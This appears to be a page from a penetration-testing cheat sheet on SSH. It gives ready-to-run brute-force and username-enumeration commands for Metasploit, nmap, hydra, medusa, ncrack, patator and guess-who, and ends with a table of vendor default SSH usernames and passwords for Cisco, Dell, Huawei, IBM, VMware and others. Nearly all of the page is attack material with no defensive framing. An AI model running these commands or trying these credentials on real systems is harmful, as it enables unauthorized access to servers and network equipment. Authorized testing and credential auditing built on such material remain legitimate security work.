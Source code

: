 Windows:

- Putty
- Filezilla
- Winscp

## SSH Credentials

### SSH Brute Forcing 

```bash
#Metasploit ssh brute force
msf > use auxiliary/scanner/ssh/ssh_login

#Metasploit username enumeration with brute force
use auxiliary/scanner/ssh/ssh_enumusers

#Nmap Brute Force
msf > nmap -p 22 --script ssh-brute --script-args userdb=users.list,passdb=pass.list \--script-args ssh-brute.timeout=4s 10.10.x.x

#Other Brute Forcing Methods
hydra -L users.txt -P passwords.txt ssh://10.10.x.x -t 8
medusa -t 2 -T2 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -H /root/Desktop/host.txt -n 22 -M ssh
ncrack -g CL=2 -U users.list -P passwords.list -iL targetIPs.list -p ssh:22 -oA Results.txt
patator ssh_login host=10.10.x.x user=FILE0 password=FILE1 0=users.list 1=passwords.list persistent=0 -x ignore:mesg=’Authentication failed.’
./guess-who -l username -h 10.10.x.x -p 22 -2 < passwords.list (https://packetstormsecurity.com/groups/teso/guess-who-0.44.tgz)
```

### SSH Default Credentials for Vendors

| Vendor | Username | Password |
| --- | --- | --- |
| APC | apc, device | apc |
| Brocade | admin | admin123, password, brocade, fibranne |
| Cisco | admin, cisco, enable, hsa, pix, pnadmin, ripeop, root, shelladmin | admin, Admin123, default, password, secur4u, cisco, Cisco, _Cisco, cisco123, C1sco!23, Cisco123, Cisco1234, TANDBERG, change_it, 12345, ipics, pnadmin, diamond, hsadb, c, cc, attack, blender, changeme |
| Citrix | root, nsroot, nsmaint, vdiadmin, kvm, cli, admin | C1trix321, nsroot, nsmaint, kaviza, kaviza123, freebsd, public, rootadmin, wanscaler |
| D-Link | admin, user | private, admin, user |
| Dell | root, user1, admin, vkernel, cli | calvin, 123456, password, vkernel, Stor@ge!, admin |
| EMC | admin, root, sysadmin | EMCPMAdm7n, Password#1, Password123#, sysadmin, changeme, emc |
| HP/3Com | admin, root, vcx, app, spvar, manage, hpsupport, opc_op | iMC123, pvadmin, passw0rd, besgroup, vcx, nice, access, config, 3V@rpar, 3V#rpar, procurve, badg3r5, OpC_op, !manage, !admin |
| Huawei | admin, root | 123456, admin, root, Admin123, Admin@storage, Huawei12#$, HwDec@01, hwosta2.0, HuaWei123, fsp200@HW, huawei123 |
| IBM | USERID, admin, manager, mqm, db2inst1, db2fenc1, dausr1, db2admin, iadmin, system, device, ufmcli, customer | PASSW0RD, passw0rd, admin, password, Passw8rd, iadmin, apc, 123456, cust0mer |
| Juniper | netscreen | netscreen |
| NetApp | admin | netapp123 |
| Oracle | root, oracle, oravis, applvis, ilom-admin, ilom-operator, nm2user | changeme, ilom-admin, ilom-operator, welcome1, oracle |
| VMware | vi-admin, root, hqadmin, vmware, admin | vmware, vmw@re, hqadmin, default |
